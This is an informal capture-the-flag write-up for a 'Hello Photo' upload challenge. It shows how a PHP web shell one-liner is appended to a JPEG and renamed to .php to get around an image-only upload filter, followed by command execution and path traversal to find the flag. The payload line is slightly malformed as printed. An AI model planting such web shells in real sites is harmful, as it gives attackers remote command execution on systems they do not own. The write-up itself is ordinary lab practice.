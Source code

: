 # Shellter Labs- Hello Photo
By just seeing the upload button i thought that is surely going to be an executing command using file upload challenge

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029410368_Screen+Shot+2019-05-28+at+1.12.15+PM.png)


Earlier i have performed command execution through an upload action in another CTF, but it was direct file upload without any restriction but here i have restriction that i only have to upload jpeg or gif

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029577670_Screen+Shot+2019-05-28+at+1.15.38+PM.png)


So i searched for reverse shell through images, then i came across a video which showed me how to add a php content to image and change it into php extension  


    echo ‘<?php if($_GET{system($_GET[“cmd”]);}?>’ >> uploadImage.jpg


    mv uploadImage.jpg uploadImage.php

A php file will b created,what we need to do is  just to upload the php file

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030280071_Screen+Shot+2019-05-28+at+1.27.46+PM.png)


It says that my file is uploaded successfully now what we can access the php file which is available in ‘uploads’ directory

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030384719_Screen+Shot+2019-05-28+at+1.29.31+PM.png)


So my command is working properly

Now we have to find the flag, as usual try path traversal

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030449651_Screen+Shot+2019-05-28+at+1.30.40+PM.png)


So here we go found the flag

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030512440_Screen+Shot+2019-05-28+at+1.31.20+PM.png)


**Takeaway:**

Command execution with file upload using image files.

